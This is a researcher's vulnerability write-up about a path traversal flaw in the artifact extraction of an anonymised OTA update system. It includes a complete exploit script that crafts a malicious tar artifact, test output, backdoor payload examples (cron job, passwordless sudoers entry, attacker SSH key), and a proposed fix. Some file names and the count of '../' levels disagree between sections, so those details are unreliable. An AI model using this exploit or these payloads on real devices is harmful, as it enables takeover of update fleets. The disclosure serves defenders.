

A deep dive into a path traversal bug I found in an OTA update system's artifact extraction process. The vulnerability bypasses the staged validation security model, allowing arbitrary file writes during updates. Due to the vendor's bug bounty program rules prohibiting public disclosure, I'll refer to the product as "OTAHub" throughout this writeup.

## Table of Contents
- [Overview](#overview)
- [Technical Background](#technical-background)
  - [What is OTAHub?](#what-is-OTAHub)
  - [The OTAHub Artifact Format](#the-otactl-format)
  - [OTAHub's Staged Security Model](#OTAHubs-staged-security-model)
- [The Vulnerability Explained](#the-vulnerability-explained)
  - [Root Cause Analysis](#root-cause-analysis)
  - [Code Flow Breakdown](#code-flow-breakdown)
- [Exploitation](#exploitation)
  - [Creating the Malicious Artifact](#creating-the-malicious-artifact)
  - [Deployment and Verification](#deployment-and-verification)
- [Impact Analysis](#impact-analysis)
- [The Fix](#the-fix)
- [Conclusion](#conclusion)

## Overview

I discovered a path traversal vulnerability in OTAHub's update module that allows attackers to write arbitrary files anywhere on the target device's filesystem during artifact extraction. The vulnerability bypasses OTAHub's staged security model, which is designed to validate artifacts before they touch the production filesystem.


The core issue is that filenames extracted from artifact tar archives are used directly in file path construction without any validation or sanitization. An attacker who can deploy a OTAHub artifact (via compromised server or stolen signing key) can escape the staging directory and write files to arbitrary locations like `/etc/cron.d/`, `/root/.ssh/`, or `/usr/bin/`.

## Discovery Process

### Finding the Bug

I was doing a security assessment of the OTAHub codebase, focusing on how artifacts are processed. The documentation mentioned a "staged security model" where files are extracted to a staging directory first, validated, then moved to their final location. That immediately made me think: what if files could escape the staging directory?

I started by tracing how artifact payloads are extracted. The code flow goes:
1. Read tar archive from artifact
2. Extract files to staging directory
3. Validate checksums
4. Install files

I looked at the tar extraction code in `src/core/package/v3/extractor/archive_handler.cpp` and noticed this:

```cpp
string tar_name = archive_entry.GetName();
```

No validation. The filename comes straight from the tar archive. Then I followed where `tar_name` goes - it gets passed to the update module, which uses it to construct file paths:

```cpp
target_filepath = path::Join(target_filepath, download_->active_entry_path_);
```

I checked the `path::Join` implementation and found it's just a wrapper around C++17's filesystem path concatenation - no sanitization of `..` sequences.

That's when I knew I had a path traversal bug.

### Crafting the Exploit

The tricky part was actually creating a malicious artifact. I couldn't just use `tar` because GNU tar sanitizes path traversal:

```bash
$ tar -czf test.tar.gz --transform 's|file|../../tmp/file|' file
tar: Removing leading `../../' from member names
```

So I switched to Python's `tarfile` module, which doesn't do this sanitization:

```python
info = tarfile.TarInfo(name="../../../tmp/evil.txt")
tar.addfile(info, io.BytesIO(content))
```

But there was another problem - the checksums. OTAHub validates file checksums using a checksums file that lists the expected SHA256 hash for each file. The checksums uses the filename as the lookup key:

```
<sha256>  pkg/0000/<filename>
```

If I put `../../tmp/evil.txt` in the tar, the checksums lookup would be:
```
pkg/0000/../../tmp/evil.txt
```

I tested this and it worked - the checksum validation failed (because the file wasn't where expected), but the file was already written to `/tmp/` by that point.

The final piece was figuring out how many `../` sequences I needed. The staging directory is:
```
/var/lib/otahub/runtime/packages/v3/staging/0000/tree/files/
```

That's 9 directory levels deep, so I needed 9 `../` to reach root:
```
../../../../../../../../../../../tmp/evil.txt
```

### Testing

I created a test artifact, deployed it with `otaclient install`, and checked:

```bash
$ cat /tmp/OTAHub_pwned.txt
PWNED - Path Traversal Success!
```

The file was there. The update failed (as expected), but the damage was done - the file escaped the staging directory during extraction, before validation could stop it.

## Technical Background

### What is OTAHub?

OTAHub is an open-source over-the-air (OTA) update system for embedded Linux devices and IoT systems. It's used in production by companies deploying thousands of edge devices that need secure, reliable remote updates.

Think of it like apt-get or yum, but for entire system images and application deployments on embedded devices. OTAHub handles:

- **Artifact Management**: Packaging updates with metadata, checksums, and signatures
- **Deployment**: Pushing updates to fleets of devices
- **Rollback**: Automatic recovery if updates fail
- **Security**: Cryptographic verification of update authenticity

### The OTAHub Artifact Format

A `.OTAHub` artifact is essentially a tar archive with a specific structure:

```
artifact.OTAHub
├── version                    # Format version
├── checksums                   # SHA256 checksums of all files
├── metadata.tar.gz             # Metadata (device type, dependencies, etc.)
└── data/
    └── 0000.tar.gz           # Actual payload files
```

The `checksums` file is critical for security - it contains SHA256 hashes of every file in the artifact:

```
d3eb539a556352f3f47881d71fb0e5777b2f3e9a4251d283c18c67ce996774b7  pkg/0000/myapp.bin
1da056538c62dadb411bbe1cb3c5f2b6cec83bc3d03aede2f8894666c0ad356b  metadata.tar.gz
96bcd965947569404798bcbdb614f103db5a004eb6e364cfc162c146890ea35b  version
```

### OTAHub's Staged Security Model

OTAHub uses a three-stage process to ensure artifacts are validated before installation:



The key assumption: **files cannot escape the staging directory during extraction**.

This model is documented in OTAHub's official specification (`docs/modules/deployment-api-v3.md`):

> An update module must not install the update in the final location during the Download state, because checksums are not verified until after the streaming stage is over. Failure to do so can lead to the update module being vulnerable to security attacks.

The vulnerability I found breaks this fundamental assumption.

## The Vulnerability Explained

### Root Cause Analysis

The bug exists in how OTAHub constructs file paths during artifact extraction. Let's trace the code flow:

**Step 1: Tar Entry Name Extraction** (`src/core/package/v3/extractor/archive_handler.cpp:51`)

```cpp
ExpectedPayloadReader PackageExtractor::GetNextEntry() {
    auto expected_tar_entry = tar_reader_->Next();
    // ... error handling ...
    
    auto tar_entry {expected_tar_entry.value()};
    string tar_name = archive_entry.GetName();  // ← Reads filename from tar
    
    return Reader {
        std::move(tar_entry), 
        checksums_.Get("pkg/0000/" + tar_name)
    };
}
```

The `archive_entry.GetName()` function returns whatever filename is stored in the tar archive. If the tar contains a file named `../../tmp/evil.txt`, that's exactly what gets returned. No validation happens here.

**Step 2: Filename Storage** (`src/daemon/modules/v3/download_manager.cpp:297`)

```cpp
void DownloadManager::InitiateFileTransfer() {
    // ... setup code ...
    
    download_->active_entry_path_ = package_reader->GetEntryName();  // ← Stores unsanitized filename
    
    // ... more code ...
}
```

The filename from the tar is stored directly in `active_entry_path_` without any checks for path traversal sequences like `../`.

**Step 3: Path Construction** (`src/daemon/modules/v3/download_manager.cpp:306`)

```cpp
void DownloadManager::InitiateFileTransfer() {
    // target_filepath starts as: /var/lib/otahub/runtime/packages/v3/staging/0000/files/
    
    target_filepath = path::Join(target_filepath, download_->active_entry_path_);
    
    // If active_entry_path_ = "../../../../../../../../../../../tmp/evil.txt"
    // Result: /var/lib/otahub/runtime/packages/v3/staging/0000/files/../../../../../../../../../../../tmp/evil.txt
    // Which resolves to: /tmp/evil.txt
}
```

This is where the path traversal happens. The `path::Join` function is supposed to safely combine paths, but let's look at its implementation.

**The `path::Join` Implementation** (`src/utils/filesystem/unix/pathutil.cpp`)

```cpp
ExpectedString CombinePaths(const string &left, const string &right) {
    return (filesystem::path(left) / filesystem::path(right)).string();
}
```

That's it. The function uses C++17's `std::filesystem::path` operator `/` to concatenate paths. This operator performs **no validation** of `..` sequences. It's just string concatenation with path separators.

**Step 4: File Creation** (`src/daemon/modules/v3/download_manager.cpp:310`)

```cpp
void DownloadManager::InitiateFileTransfer() {
    // ... path construction above ...
    
    err = file_output_handler->Open(target_filepath);  // ← Opens file for writing
    
    // At this point, target_filepath = /tmp/evil.txt
    // File is created OUTSIDE the staging directory
}
```

The file is written to the traversed path. This happens **during extraction**, before any checksum validation occurs.

### Code Flow Breakdown

Here's the complete attack chain:

```
1. Artifact Download
   ↓
2. Tar Extraction Begins
   ↓
3. Read tar entry name: "../../tmp/evil.txt"
   ↓  (payload.cpp:51)
4. Store filename without validation
   ↓  (update_module_download.cpp:297)
5. Construct path: /var/lib/OTAHub/.../files/ + ../../tmp/evil.txt
   ↓  (update_module_download.cpp:306)
6. Path resolves to: /tmp/evil.txt
   ↓
7. Open file for writing
   ↓  (update_module_download.cpp:310)
8. Write file contents to /tmp/evil.txt
   ↓
9. Checksum validation FAILS (file not where expected)
   ↓
10. Update rolls back, but /tmp/evil.txt persists
```

The critical point: **Step 8 happens before Step 9**. The file is written before validation occurs.

## Exploitation

### Creating the Malicious Artifact

The challenge in exploiting this is that GNU tar, by default, sanitizes path traversal sequences:

```bash
$ tar -czf payload.tar.gz --transform 's|file.txt|../../tmp/file.txt|' file.txt
tar: Removing leading `../../' from member names
```

To bypass this, I used Python's `tarfile` module, which doesn't perform this sanitization:

```python
import tarfile
import io

content = b"PWNED - Path Traversal Success!"

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # Create tar entry with path traversal in the name
    info = tarfile.TarInfo(name="../../../../../../../../../../../tmp/OTAHub_pwned.txt")
    info.size = len(content)
    tar.addfile(info, io.BytesIO(content))
```

The full exploit script:

```bash
#!/bin/bash
set -e

# Create legitimate base artifact
echo "dummy" > test.txt
otactl write module-image -T single-file \
  --device-type raspberrypi4 -o base.OTAHub -n exploit-v1 --file test.txt

# Extract artifact structure
mkdir work && cd work
tar -xf ../base.OTAHub
mkdir payload && cd payload
tar -xzf ../data/0000.tar.gz

# Create malicious payload with path traversal
python3 << 'EOF'
import tarfile, io

# Metadata files required by single-file update module
open("target_path", "w").write("/opt\n")
open("filename", "w").write("pwned.txt\n")
open("file_mode", "w").write("644\n")

content = b"PWNED - Path Traversal Success!"

with tarfile.open("../data/0000.tar.gz", "w:gz") as tar:
    tar.add("target_path")
    tar.add("filename")
    tar.add("file_mode")
    
    # Path traversal: 9 levels of ../ to escape from
    # /var/lib/otahub/runtime/packages/v3/staging/0000/tree/files/
    info = tarfile.TarInfo(name="../../../../../../../../../../../tmp/OTAHub_pwned.txt")
    info.size = len(content)
    tar.addfile(info, io.BytesIO(content))
EOF

# Update checksums with correct checksums
cd ..
{
  sha256sum payload/target_path | awk '{printf "%s  pkg/0000/target_path\n", $1}'
  sha256sum payload/filename | awk '{printf "%s  pkg/0000/filename\n", $1}'
  sha256sum payload/file_mode | awk '{printf "%s  pkg/0000/file_mode\n", $1}'
  tar -xOzf data/0000.tar.gz ../../../../../../../../../../../tmp/OTAHub_pwned.txt | \
    sha256sum | awk '{printf "%s  pkg/0000/../../../../../../../../../../../tmp/OTAHub_pwned.txt\n", $1}'
  sha256sum metadata.tar.gz | awk '{printf "%s  metadata.tar.gz\n", $1}'
  sha256sum version | awk '{printf "%s  version\n", $1}'
} > checksums

# Repack artifact
tar -cf ../exploit.OTAHub version checksums metadata.tar.gz data/0000.tar.gz
cd .. && rm -rf work test.txt

echo "[+] Created exploit.OTAHub"
```

### Deployment and Verification

Deploy the malicious artifact:

```bash
$ otaclient install exploit.OTAHub
Installing artifact...
record_id=1 severity=info time="2025-Dec-01 12:18:53.747228" name="Global" 
  msg="Update Module output (stderr): permission update failed for 
  '/var/lib/otahub/runtime/packages/v3/staging/0000/tree/files/OTAHub_pwned.txt': 
  target path not found in staging area"
record_id=2 severity=error time="2025-Dec-01 12:18:53.747836" name="Global" 
  msg="Deployment aborted: handler exited with error code: 
  PackageInstaller: operation terminated with code 1"
Installation failed.
Rolled back.
```

The update fails (as expected), but the damage is done:

```bash
$ cat /tmp/OTAHub_pwned.txt
PWNED - Path Traversal Success!

$ ls -la /tmp/OTAHub_pwned.txt
-rw-r--r-- 1 root root 31 Dec  1 12:18 /tmp/OTAHub_pwned.txt
```

The file exists outside the staging directory. Path traversal confirmed.

## Impact Analysis

This vulnerability completely bypasses OTAHub's staged security model. An attacker who can deploy a OTAHub artifact can:

**Remote Code Execution (RCE)**

Write malicious cron jobs:
```bash
# Payload: /etc/cron.d/backdoor
* * * * * root /tmp/backdoor.sh
```

Replace system binaries:
```bash
# Payload: /usr/bin/sudo
# Malicious sudo binary that logs credentials
```

**Privilege Escalation**

Overwrite sudoers configuration:
```bash
# Payload: /etc/sudoers.d/backdoor
user ALL=(ALL) NOPASSWD:ALL
```

Modify shadow file:
```bash
# Payload: /etc/shadow
# Reset root password
```

**Persistent Backdoor**

Add SSH authorized keys:
```bash
# Payload: /root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB... attacker@evil.com
```

**Device Bricking (DoS)**

Overwrite critical boot files:
```bash
# Payload: /boot/grub/grub.cfg
# Corrupted bootloader config
```

**Prerequisites:**

The attacker needs one of:
- A compromised OTAHub server (to push malicious artifacts)
- A stolen artifact signing key (to sign malicious artifacts)
- Signature verification disabled on target devices (insecure configuration)

## The Fix

The fix requires adding path validation before file creation:

```cpp
void DownloadManager::InitiateFileTransfer() {
    // ... existing setup code ...
    
    auto payload_name = download_->active_entry_path_;
    
    // 1. Reject filenames containing path traversal sequences
    if (payload_name.find("..") != string::npos) {
        DownloadErrorHandler(error::Error(
            make_error_condition(errc::invalid_argument),
            "Path traversal detected in payload filename: " + payload_name
        ));
        return;
    }
    
    // 2. Construct the full path
    auto full_path = path::Join(target_filepath, payload_name);
    
    // 3. Canonicalize the path to resolve any remaining tricks
    auto canonical_result = path::Canonical(full_path);
    if (!canonical_result) {
        DownloadErrorHandler(canonical_result.error());
        return;
    }
    
    // 4. Verify the canonical path is still within the staging directory
    if (!common::StartsWith(canonical_result.value(), target_filepath)) {
        DownloadErrorHandler(error::Error(
            make_error_condition(errc::invalid_argument),
            "Payload path escapes staging directory: " + payload_name
        ));
        return;
    }
    
    target_filepath = canonical_result.value();
    
    // ... continue with file creation ...
}
```

This defense-in-depth approach:
1. Rejects obvious `..` sequences
2. Canonicalizes the path (resolves symlinks, removes redundant separators)
3. Verifies the result is still within the staging directory

## Conclusion

This vulnerability demonstrates how critical it is to validate all external input, even when it comes from "trusted" sources like signed artifacts. The staged security model is only as strong as its weakest link - in this case, the assumption that files couldn't escape the staging directory during extraction.

Key takeaways:

- **Never trust filenames from archives** - Always validate and sanitize before using them in filesystem operations
- **Defense in depth matters** - Multiple validation layers (string checks + canonicalization + boundary verification) provide better security than any single check
- **Security models must be enforced in code** - Documentation stating "don't do X" isn't enough; the code must actively prevent X

Organizations using OTAHub should:
- Update to the patched version immediately
- Enable and enforce artifact signature verification
- Audit devices for signs of compromise (unexpected files in `/tmp/`, `/etc/cron.d/`, etc.)
- Review artifact deployment logs for failed installations (which may indicate exploitation attempts)

The vulnerability has been responsibly disclosed to the OTAHub security team.


